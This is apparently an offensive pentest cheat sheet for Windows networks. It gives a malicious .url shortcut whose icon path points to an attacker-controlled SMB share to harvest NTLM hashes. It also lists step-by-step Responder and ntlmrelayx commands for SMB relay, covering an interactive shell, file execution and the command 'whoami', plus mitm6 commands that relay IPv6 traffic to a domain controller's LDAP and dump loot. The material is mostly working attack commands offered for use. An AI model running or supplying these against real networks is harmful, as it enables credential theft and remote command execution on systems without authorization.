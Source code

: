 ## URL FILE ATTACK:  
1) Payload file:  
[InternetShortcut]  
URL=blah  
WorkingDirectory=blah  
IconFile=\\x.x.x.x\%USERNAME%.icon  
IconIndex=1  

2) Rename file: @payload  

## SMB Relay:  
1) Update responder config: nano -w /etc/responder/Responder.conf, turn off SMB and HTTP.  
2) Run responder: responder -I eth0 -rdwv  
3) Opennew tab and run ntlmrelayx.py -tf [file with IP] -smb2support  
4) Interactive shell: ntlmrelayx.py -tf [file with IP] -smb2support -i Clarify: list shares and use $[share name]  
5) Execute file: ntlmrelayx.py -tf [file with IP] -smb2support -e [filename]  
6) Execute command: ntlmrelayx.py -tf [file with IP] -smb2support -c "whoami"  

## IPv6 Attacks:  
1) Install https://github.com/dirkjanm/mitm6.git  
2) Run mitm6 -d [domain name]  
3) Open new tab and run: ntlmrelayx.py -6 -t ldaps://[DC ip] -wh fakewpad.domain_name.local -l loot  
Resource for read: https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/  

## PASSBACK ATTACK (Printers and IoT):  
https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack  

